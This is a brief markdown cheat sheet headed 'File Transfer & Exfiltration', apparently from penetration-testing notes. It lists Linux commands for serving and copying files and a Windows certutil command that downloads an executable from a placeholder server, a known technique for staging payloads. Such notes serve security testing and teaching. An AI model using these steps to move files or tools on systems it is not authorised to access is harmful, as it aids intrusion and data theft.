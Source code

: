 # File Transfer & Exfiltration

## Linux

```shell
python3 -m http.server
scp file user@host:/path
```

## Windows

```shell
certutil.exe -urlcache -split -f http://<server>/file.exe file.exe
```
